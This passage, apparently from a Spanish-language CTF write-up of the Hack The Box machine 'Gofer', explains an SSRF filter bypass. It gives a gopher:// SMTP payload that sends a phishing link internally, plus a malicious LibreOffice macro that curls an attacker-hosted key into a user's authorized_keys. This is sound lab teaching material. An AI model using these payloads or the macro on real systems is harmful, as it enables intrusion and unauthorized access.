 Observa como nos bloquea el 127, pero no es problema, [TheHacker Recipes](https://www.thehacker.recipes/web/inputs/ssrf#bypassing-filters) nos da unas formas de hacerle bypass

Si ahora realizamos la peticion de esta menera: **/index.php?url=gopher://0x7f000001** ya no veremos que nos bloquea el 127, para hacer unas cuantas pruebas, podemos hacer uso de [Gopherus](https://github.com/tarunkant/Gopherus), me guiare de [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#gopher) y de [aca](https://infosecwriteups.com/server-side-request-forgery-to-internal-smtp-access-dea16fe37ed2), pero tomando en cuenta que los correos los envia **jdavis** (jdavis@gofer.htb) y los recibe **Jocelyn** (jhudson@gofer.htb)

El payload es:


    gopher://0x7f000001:25/_HELO gofer.htb%0AMAIL FROM: <jdavis@gofer.htb>%0ARCPT TO: <jhudson@gofer.htb>%0ADATA%0ASubject: <a http://10.10.14.59:8086/prueba> SSRF HERE%0ASSRF AND SMTP%0A.

Y lo que estaria pasando es que mediante el **SSRF** estamos accediendo al servicio interno de **SMTP** para enviar un correo a la **Jocelyn**, y como sabemos que la **Jocelyn** da click en los enlaces, en el **Subject** agregamos nuestra IP con un archivo de **/prueba** que sera solicitado.

Y observa como nos llego una peticion que viene de la maquina hacía el recurso /prueba

![](/assets/img/gofer/8.png)

Y ahora la pregunta es: ¿Como conseguimos una reverse shell? o ¿Como conseguimos RCE?, pues en el correo que vimos al principio, decia que los correos importantes se deberian de enviar con formato **.odt**, osea el formato por defecto de **libreoffice**, y ese archivo seria interpretado, pues bien, lo que podemos hacer es que crear un archivo **.odt** con una macro, la cual nos establezca una conexion al abrir el **.odt**

Para crear un .odt malicioso pueden guiarse de aqui: [https://jamesonhacking.blogspot.com/2022/03/using-malicious-libreoffice-calc-macros.html](https://jamesonhacking.blogspot.com/2022/03/using-malicious-libreoffice-calc-macros.html)

En mi caso creare esta macro ya que el tipico oneliner de bash no me funciono, muchas gracias a **[xD4nt3](https://www.youtube.com/@xD4nt3)** por la ayuda con la macro:

```vb
Sub Main
    Shell("curl <tu_ip>:8086/id_rsa.pub -o /home/jhudson/.ssh/authorized_keys")
End Sub
```

Simplemente modificamos el exploit que usamos anteriormente y en lugar de que se solicité **/prueba**, se solicitará ese .odt malicioso (/shell.odt, por ejemplo)

Pasando un momento, nos llegara una peticion a nuestro servidor web de python solicitando el archivo .odt, y ahora ya podemos acceder como **jhudson** por SSH, por que nuestro **id_rsa.pub** se hizo el **authorized_keys** de **jhudson**
